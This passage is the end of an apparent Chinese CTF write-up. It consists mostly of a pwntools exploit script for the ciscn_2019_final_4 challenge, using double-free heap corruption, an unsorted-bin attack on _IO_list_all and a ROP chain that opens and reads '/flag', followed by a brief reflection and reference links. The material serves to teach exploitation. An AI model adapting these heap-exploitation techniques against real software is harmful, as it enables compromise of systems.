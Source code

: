 ```python

fake = p64(heap+0x220-0x60)+p64(0x61)+p64(0x47b75+base)+p64(0)+p64(0)+p64(1)
add(0x68,fake)#13




regs=flat(heap+0x220-0x60,0,heap+0x400,0,0,0x100)
regs=regs.ljust(0xa8-0x60,'\x00')+p64(syscall)
add(0x100,regs)#14
add(0x68)#15
free(14)
free(15)
free(0)
free(15)

add(0x68,p64(heap+0x200))
add(0x68)
add(0x68)
add(0x68,p64(0)+p64(0x21)+p64(0)+p64(libc.sym['_IO_list_all']-0x10))
add(0x18)

free(15)
free(0)
free(15)
add(0x68,p64(heap+0xc0))
add(0x68)
add(0x68)
add(0x68,p64(syscall)+p64(0)+p64(heap+0x78)+p64(0)*2+p64(0x100))

#gdb.attach(p,'b *0x7ffff7a89193')

cmd(4)
#1. set small bin
#2. unsorted bin attack

rax=0x0000000000033544+base
rdi=0x0000000000021102+base
rsi=0x00000000000202e8+base
rdx=0x0000000000001b92+base


rop=flat(rsi,heap+0x150,rdi,0,rdx,0,rax,257,syscall,rdi,3,rsi,heap+0x300,rdx,0x30,rax,0,syscall,rdi,1,rsi,heap+0x300,rdx,0x30,rax,1,syscall)
p.send(rop+"/flag\x00")
log.warning(hex(base))
log.warning(hex(heap))
p.interactive('n132>')
```

相比做天做的9题...这题确实学到了很多东西...
至此本题结束,我会在日后的一些博客中中总结一些模版类的东西方便自己日后使用.


[1]: https://buuoj.cn/challenges#ciscn_2019_final_4
[2]: https://github.com/n132/Watermalon/tree/master/CISCN-2019/finnal/ciscn_2019_final_4
[3]: https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ptrace.h.html
[4]: https://www.cnblogs.com/axiong/p/6184638.html
[5]: http://blog.leanote.com/post/xp0int/%5BPwn%5D-Pwn7-cpt.shao